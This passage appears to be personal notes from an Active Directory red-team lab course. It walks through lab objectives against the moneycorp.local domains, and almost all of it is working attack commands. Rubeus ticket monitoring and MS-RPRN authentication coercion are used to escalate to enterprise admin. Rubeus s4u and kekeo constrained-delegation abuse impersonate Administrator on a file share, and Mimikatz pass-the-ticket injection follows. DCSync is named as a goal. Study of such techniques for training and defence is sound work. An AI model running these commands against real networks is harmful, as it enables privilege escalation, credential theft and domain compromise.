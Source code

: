 ```powershell
```

For mcorp-dc escalate to EA
```powershell

####Listening ticket for mcorp-dc
C:\Users\Public\Rubeus.exe monitor /targetuser:DCORP-DC$ /interval:5 /nowrap

####Force Mcorp-dc to authenticate iteself to dcorp-appsrv
C:\AD\Tools\MS-RPRN.exe \\mcorp-dc.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local

```

### Objective 16:

- Enumerate users in the domain for whom Constrained Delegation is enabled.
	- For such a user, request a TGT from the DC and obtain a TGS for the service to which delegation is configured. 
	- Pass the ticket and access the service. 
- Enumerate computer accounts in the domain for which Constrained Delegation is enabled. 
	- For such a user, request a TGT from the DC.
	- Obtain an alternate TGS for LDAP service on the target machine. 
	- Use the TGS for executing DCSync attack.


##### Constrained Delegation

 ***[+] Abuse users where Constrained Delegation Enabled***

*(using rubeus)*
```powershell

####Enumerate user where contrained delegation enable
Get-DomainUser -TrustedToAuth

####Request TGT and TGS for CIFS service
C:\AD\Tools\Rubeus.exe s4u /user:websvc /aes256:<websvc_hash> /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt

####Access file system
dir\\dcorp-mssql.dollarcorp.moneycorp.local\c$

```


*(using kekeo)*
```powershell

.\kekeo.exe

####request a TGT from websvc
tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:<websvc_rc4_hash>

####request a TGS using TGT
tgs::s4u /tgt:<filename>.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL

####inject the ticket in current session
Invoke-Mimi-Command '"kerberos::ptt <filename>.kirbi"'

dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$

```
